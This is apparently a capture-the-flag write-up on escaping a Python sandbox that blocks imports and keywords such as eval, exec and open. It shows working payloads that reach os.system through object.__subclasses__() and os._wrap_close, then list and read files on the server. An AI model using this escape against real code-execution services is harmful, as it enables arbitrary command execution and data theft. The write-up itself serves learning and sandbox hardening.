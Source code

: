 # Outdated

> I found this old website that runs your python code, but the security hasn't been updated in years
> I'm sure there's a flag floating around, can you find it?

> You can run python code from anywhere! Upload code from your phone! (Note: code cannot import libraries or use some keywords. Please stop trying to.)

This is a basic pyjail challenge. Imports and certain keywords are blocked. The [source code](server) of the server is provided, so we can see what exactly is allowed.

Notably:

```python
# app.py
blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec", "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys", "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```

There are a few other checks, including one that blocks non-ASCII characters, and a limit on the number of lines in the file.

Sidenote: when I was solving this challenge I didn't realize the source code was provided, which didn't make a big difference but did lead to me wasting some time experimenting with which keywords were blocked.

## Solution

Most of the obvious solutions are prevented by the blocked keywords, and lack of imports. 

I started by printing out all of the subclasses of `object` to see what classes I had access to:

``` python
print(object.__subclasses__())
```

This returned a long list of classes to look through. I ended up just `CMD+F`ing for `os` to try to find any classes of interest, and the only result was `os._wrap_close`.

I tried googling this class since I had no idea was it was, but surprisingly I found absolutely zero information about it, so I'm still not sure what it really is. However I did find [one useful page](https://blog.p6.is/Python-SSTI-exploitable-classes/) detailing how it could be exploited.

From that page:

``` python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```

It looks like the initializer for `os._wrap_close` has a reference to the `system` function, which can be used to execute shell commands!

We just need to grab that class from the list we got earlier, and then we can use the `ls` command to look around the file system:

``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('ls'))
```

```
Dockerfile
__pycache__
app.py
flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt
run.sh
static
templates
uploads
```

There's the flag!

Read the file with `cat`:

``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt'))
```

And we get the flag:

```
tjctf{oops_bad_filter_3b582f74}
```
